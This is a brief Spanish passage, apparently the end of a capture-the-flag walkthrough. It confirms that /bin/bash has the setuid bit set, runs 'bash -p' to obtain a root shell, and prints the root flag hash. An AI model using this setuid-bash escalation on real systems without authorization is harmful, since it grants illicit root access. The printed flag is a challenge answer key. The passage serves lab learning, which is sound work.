 Y si ahora comprobamos la `bash`.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31 10:41 /bin/bash
```

Vemos que funciono, por lo que haremos lo siguiente.

```shell
/usr/bin/bash -p
```

Y con esto ya seremos `root`, asi que leeremos la flag.

> root.txt

```
c43cb8e62105280785c7500ba705a9fc
```
